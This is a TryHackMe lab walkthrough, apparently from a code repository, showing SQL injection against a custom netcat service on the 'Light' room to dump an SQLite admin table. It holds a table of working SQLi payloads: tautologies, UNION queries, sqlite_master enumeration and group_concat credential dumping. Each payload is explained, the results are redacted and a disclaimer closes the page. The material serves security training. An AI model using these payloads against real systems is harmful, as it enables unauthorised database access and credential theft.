










# Light — TryHackMe Walkthrough

[](https://tryhackme.com/room/lightroom)
[]()
[]()


A walkthrough of the **Light** room on TryHackMe — a custom TCP database application reachable over netcat, vulnerable to **SQL injection**. The goal is to break out of the intended "enter a username, get a password" flow and dump the admin credentials and flag straight from the underlying SQLite database.

**Room:** https://tryhackme.com/room/lightroom

---

## 1. Connecting to the Service

The room description points to a custom app on port `1337`:

```bash
nc 10.130.177.35 1337
```

Entering the given username `smokey` returns its corresponding password:



This confirms the app's intended behavior: **username in → password out**, backed by some kind of database lookup. That lookup is exactly where SQL injection testing starts.

---

## 2. Probing for SQL Injection

Since the app is clearly backed by a database, the username field was tested against a standard set of SQLi probe payloads — ones that work (with minor tweaks) across MySQL, SQLite, PostgreSQL and MSSQL. The table below lists each payload **and why it was tried**:

| # | Payload | Why this payload |
|---|---------|-------------------|
| 1 | `' OR '1'='1` | The classic tautology. If the username is inserted unsanitized into a query like `... WHERE username = '<input>'`, closing the quote and adding an always-true `OR` condition should make the `WHERE` clause match every row — a quick first signal that input isn't sanitized. |
| 2 | `' OR 1=1--` | Same tautology, but appends `--` (SQL comment) to blank out anything the original query expected after the input (e.g. a closing quote or `AND` clause), so the injected condition isn't broken by leftover syntax. |
| 3 | `' OR 1=1#` | Identical purpose to #2, using `#` instead — MySQL's comment syntax, tried in case `--` behaves differently (some engines require a trailing space after `--`). |
| 4 | `') OR ('1'='1` | Covers the case where the original query wraps the input in parentheses, e.g. `WHERE (username = '<input>')`. Without matching the parenthesis, the injected `OR` wouldn't be parsed as part of the same boolean expression. |
| 5 | `" OR "1"="1` | Double-quote variant, in case the backend treats double quotes as string delimiters (common in MySQL's ANSI_QUOTES mode or if the app uses double-quoted strings instead of single). |
| 6 | `admin'--` | A targeted login-bypass payload: assumes a user named `admin` exists, closes the quote, then comments out any trailing password check (`AND password = '...'`), so only the username match matters. |
| 7 | `admin'#` | Same idea as #6, MySQL comment style. |
| 8 | `' AND 1=1--` | A **boolean-based** test rather than a tautology — pairs with #9. A condition that's always true should behave identically to a normal valid query (not "match everything"), which helps confirm injection without triggering a dump of every row. |
| 9 | `' AND 1=2--` | The false counterpart to #8. If the app responds differently to `1=1` (true) vs `1=2` (false) — e.g. "found" vs "not found" — that difference confirms the input is reaching the SQL engine as live logic, not just being treated as a literal string. |
| 10 | `1 OR 1=1` | Tests the same tautology but **without quotes**, in case the input is inserted into a numeric context (e.g. `WHERE id = <input>`) rather than a quoted string context. |
| 11 | `1' ORDER BY 1--` | Used to enumerate how many columns the underlying `SELECT` returns — increment the number (`ORDER BY 1`, `ORDER BY 2`, …) until the query errors out. This is a prerequisite for UNION-based injection, since a `UNION SELECT` must match the original column count exactly. |
| 12 | `' UNION SELECT NULL--` | The first UNION probe: a single `NULL` column to test whether one column is enough to match the original query, confirming both the column count and that UNION-based extraction is viable. |
| 13 | `' UniOn SeLEct sqlite_version()'` | With UNION confirmed, this pulls the database version to fingerprint the engine. Mixed-case keywords (`UniOn`, `SeLEct`) are a common technique to dodge naive, case-sensitive WAF/filter rules — not needed here, but kept as habit. |
| 14 | `' UnIoN SeLecT sql FrOM sqlite_master'` | `sqlite_master` is SQLite's built-in schema table; its `sql` column stores the original `CREATE TABLE`/`CREATE INDEX` statements. Dumping it reveals table names **and** their column structure in one shot — key for knowing what to query next. |
| 15 | `' UnIoN SeLecT tbl_name FRoM sqlite_master'` | A narrower version of #14 — just the table names, useful for a quick list of what's in the database (here, surfacing `admintable`). |
| 16 | `' UnIoN SeLecT username \|\| ':' \|\| password FrOm admintable'` | Now targeting the discovered `admintable` directly. Since the app only displays one output field (the "password"), the `\|\|` string-concatenation operator combines `username` and `password` into a single column so both values come back in the one slot the app renders. |
| 17 | `' UnIoN SeLecT group_concat(username \|\| ':' \|\| password) FrOm admintable'` | Payload #16 only returns one row per query. Wrapping the concatenation in `group_concat()` merges **every row** of `admintable` into a single comma-separated string — dumping the entire table (all accounts, and anything else stored alongside them) in one request instead of paging through rows one at a time. |

> Note: several payloads above end with a stray trailing `'` (e.g. `sqlite_version()'`). That's leftover from how the input was pasted into the netcat session rather than a deliberate part of the syntax — the payload works the same without it.

---

## 3. Walking Through the Results

The first couple of generic payloads in the table above got a hit — confirming the field was indeed injectable — but didn't yet reveal a usable username:



Trying the comment-terminated tautologies:

**Payload:** `' OR 1=1--`



**Payload:** `' OR 1=1#`



With injection confirmed, the next step was fingerprinting and mapping the schema:

**Payload:** `' UniOn SeLEct sqlite_version()'`



**Payload:** `' UnIoN SeLecT sql FrOM sqlite_master'`



This surfaced the table name `admintable`. Attempting to use `admintable` directly as a *username* input (rather than in a payload) returned "not found" — a useful reminder that discovering a table name doesn't mean it behaves like a row in it.

Extracting credentials one row at a time:

**Payload:** `' UnIoN SeLecT username || ':' || password FrOm admintable'`



This returned the first admin-table row — a `username:password` pair:



Finally, dumping every row (and the flag stored alongside it) in one go:

**Payload:** `' UnIoN SeLecT group_concat(username || ':' || password) FrOm admintable'`



---

## 4. Result

The full dump returned the admin account and the room's flag together:



- **Username:** `TryHackMeAdmin`
- **Password:** `m*******` *(redacted)*
- **Flag:** `THM{*********}` *(redacted)*

---

## Skills Demonstrated

| Area | Skill |
|------|-------|
| Recon | Interacting with a raw TCP service via netcat |
| Injection testing | Boolean-based and tautology-based SQLi probing across multiple quoting/comment styles |
| Enumeration | Column-count discovery (`ORDER BY`), UNION-based extraction, SQLite schema enumeration via `sqlite_master` |
| Data exfiltration | String concatenation (`\|\|`) and aggregation (`group_concat`) to extract full table contents through a single-output-field application |

---

## Disclaimer

This walkthrough documents work performed on a deliberately vulnerable TryHackMe lab machine for educational purposes. Credentials and the flag are redacted; this repo documents technique, not a copy-paste solution. None of the payloads here should be used against systems you do not own or have explicit written permission to test.
